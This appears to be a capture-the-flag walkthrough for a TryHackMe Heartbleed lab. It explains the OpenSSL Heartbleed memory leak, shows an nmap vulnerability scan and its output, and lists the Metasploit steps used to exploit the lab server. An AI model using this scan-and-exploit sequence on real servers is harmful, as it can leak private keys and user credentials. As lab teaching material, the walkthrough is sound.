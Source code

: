 ```yaml
---
title: Walkthrough - Heartbleed
published: false
---
```


Tags: Heartbleed, CTF, metasploit.
Description: SSL issues are still lurking in the wild. Can you exploit this web servers OpenSSL?
Difficulty: Easy
URL: [https://tryhackme.com/room/heartbleed](https://tryhackme.com/room/heartbleed)

* * *

## Notes

Heartbleed is a bug due to the implementation in the OpenSSL library from versions 1.0.1 to 1.0.1f(which is very widely used). It allows a user to access memory on the server(which they usually wouldn't have access to). This in turn allows a malicious user to access different kinds of information(that they wouldn't usually have access to due to the encryption and integrity provided by TLS) including:

   - server private key

   - confidential data like usernames, passwords and other personal information

- `sudo nmap -sC -sV -sT --script vuln -O 54.246.8.10 -p22,25,111,113,443,58869`

```
443/tcp   open     ssl/http nginx 1.15.7
| ssl-ccs-injection: 
|   VULNERABLE:
|   SSL/TLS MITM vulnerability (CCS Injection)
|     State: VULNERABLE
|     Risk factor: High
|       OpenSSL before 0.9.8za, 1.0.0 before 1.0.0m, and 1.0.1 before 1.0.1h
|       does not properly restrict processing of ChangeCipherSpec messages,
|       which allows man-in-the-middle attackers to trigger use of a zero
|       length master key in certain OpenSSL-to-OpenSSL communications, and
|       consequently hijack sessions or obtain sensitive information, via
|       a crafted TLS handshake, aka the "CCS Injection" vulnerability.
|           
|     References:
|       http://www.cvedetails.com/cve/2014-0224
|       http://www.openssl.org/news/secadv_20140605.txt
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-0224
| ssl-heartbleed: 
|   VULNERABLE:
|   The Heartbleed Bug is a serious vulnerability in the popular OpenSSL cryptographic software library. It allows for stealing information intended to be protected by SSL/TLS encryption.
|     State: VULNERABLE
|     Risk factor: High
|       OpenSSL versions 1.0.1 and 1.0.2-beta releases (including 1.0.1f and 1.0.2-beta1) of OpenSSL are affected by the Heartbleed bug. The bug allows for reading memory of systems protected by the vulnerable OpenSSL versions and could allow for disclosure of otherwise encrypted confidential information as well as the encryption keys themselves.
|           
|     References:
|       http://www.openssl.org/news/secadv_20140407.txt 
|       http://cvedetails.com/cve/2014-0160/
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-0160
```

1. `msfconsole`
2. `search openssl heartbleed`
3. set options
4. exploit 
5. I had to run this exploit about 4-5 times in order to find the flag.

* * * 

![0xskar](/assets/heartbleed01.png)

* * * 

